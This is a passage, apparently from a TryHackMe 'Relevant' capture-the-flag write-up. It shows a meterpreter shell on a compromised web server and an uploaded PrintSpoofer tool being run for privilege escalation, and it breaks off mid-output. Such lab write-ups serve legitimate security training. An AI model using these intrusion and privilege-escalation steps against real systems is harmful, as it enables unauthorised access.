 ![msfvenom](assets/img/tryhackme/relevant/04.png)

I downloaded `PrintSpooler64.exe` from the github repository and uploaded it via `SMB` again. Then I created a `shell` and tried to open a elevated Powershell session:

```bash
meterpreter > shell
Process 2800 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -h
PrintSpoofer64.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
```